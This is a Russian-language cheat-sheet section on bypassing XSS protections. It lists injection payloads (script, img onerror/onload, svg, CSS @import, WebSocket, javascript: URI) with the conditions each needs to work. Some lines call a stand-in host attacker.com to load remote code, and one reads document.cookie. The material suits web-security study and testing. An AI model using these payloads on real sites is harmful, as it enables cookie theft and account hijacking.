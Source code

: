 ----
# 6. Обход защит от xss
## Варианты полезной нагрузки

#### Простое окошко xss атаки
	`<script>alert('XSS Attack!');</script>`
- **Условия работы**:
    - Сервер не экранирует или не фильтрует входные данные.
    - Внедренный код выполняется в контексте браузера.

#### XSS через `onerror`
	`<img src="invalid.jpg" onerror=alert('XSS Attack!')>` 
- **Условия работы**:
    - Атрибуты HTML не экранируются.
    - Изображение не загружается, что вызывает выполнение `onerror`.

#### XSS через `onload`
	`<img src="valid.jpg" onload=alert('XSS Attack!')>` 
- **Условия работы**    
    - Атрибуты HTML не экранируются.
    - Изображение успешно загружается, что вызывает выполнение `onload`.

#### XSS через SVG
	`<svg/onload=alert(1)>`
- **Условия работы**:
    - SVG-файлы обрабатываются как HTML.
- **Обход**:  
    Используйте другие векторные изображения или внедряйте JavaScript.

### XSS через CSS
	`<style>@import url('http://attacker.com/xss.css');</style>`
- **Условия работы**:
    - CSS-файлы загружаются без проверки.
- **Обход**:  
    Используйте `expression()` в старых версиях IE:
    `background: expression(alert(1));`

#### XSS через WebSocket
	`new WebSocket('ws://attacker.com/xss');`
- **Условия работы**:
    - WebSocket-соединения не проверяются.
- **Обход**:  
    Используйте вредоносные payloads в сообщениях WebSocket.

####  XSS через jQuery и `URLSearchParams`
	`javascript:alert(document.cookie)`
- **Условия работы**:
    - Параметры URL передаются в JavaScript без проверки.
    - Используется `eval` или аналогичные функции.
